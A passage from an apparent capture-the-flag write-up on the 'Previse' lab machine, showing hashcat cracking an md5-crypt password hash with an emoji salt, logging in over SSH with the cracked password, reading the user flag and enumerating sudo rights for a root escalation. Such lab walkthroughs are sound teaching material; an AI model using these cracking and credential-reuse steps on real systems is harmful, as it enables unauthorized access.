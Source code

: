 The hash seems to be using an emoji character as part of the salt. This is a little silly, but nothing I can’t try to break.

### Crack Hash

I’ll put the hash into a file and feed it to Hashcat. Based on the [example hashes](https://hashcat.net/wiki/doku.php?id=example_hashes) page, it looks like md5-crypt, or mode 500:

```

oxdf@parrot$ hashcat -m 500 m4lwhere.hash /usr/share/wordlists/rockyou.txt
...[snip]...
$1$🧂llol$DQpmdvnb7EeuO6UaqRItf.:ilovecody112235!
...[snip]...

```

### SSH

That password works over SSH as m4lwhere:

```

oxdf@parrot$ sshpass -p 'ilovecody112235!' ssh m4lwhere@10.10.11.104
...[snip]...
m4lwhere@previse:~$

```

And I can grab `user.txt`:

```

m4lwhere@previse:~$ cat user.txt
1e9de647************************

```

## Shell as root

### Enumeration

m4lwhere can run `sudo` on a script, `access_backup.sh`:

```

m4lwhere@previse:~$ sudo -l
[sudo] password for m4lwhere: 
User m4lwhere may run the following commands on previse:
    (root) /opt/scripts/access_backup.sh

```

There’s an important line missing from that output where `sudo` has been misconfigured to allow the next exploit. I’ll dig into that in [Beyond Root](#sudo-default-configs).
